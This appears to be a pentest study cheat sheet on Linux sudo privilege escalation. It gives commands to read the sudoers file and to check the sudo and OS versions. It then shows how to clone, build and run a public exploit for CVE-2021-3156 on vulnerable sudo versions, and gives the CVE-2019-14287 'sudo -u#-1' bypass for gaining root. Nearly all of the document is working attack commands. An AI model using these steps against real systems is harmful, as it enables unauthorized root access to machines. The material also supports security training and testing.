 **Check Sudoers file
```shell-session
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Vulnerable sudo versions:
- 1.8.31 Ubuntu 20.04
- 1.8.27 Debian 10
- 1.9.2 Fedora 33

**Find version of sudo
```shell-session
sudo -V | head -n1
```

**Find version of operating system
```shell-session
cat /etc/lsb-release
```

**Version 1.8.31 vulnerability
```shell-session
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich 1
```
- Based on OS the number will change

## Sudo Policy Bypass

Version 1.8.28 is vulnerable
- CVE-2019-14287, only requires a user in the /etc/sudoers file to execute a specific command
```shell-session
sudo -l
cat /etc/passwd | grep cry0l1t3
```
- This user is id 1005

**Specify id as negative number to obtain root
```shell-session
sudo -u#-1 id
```

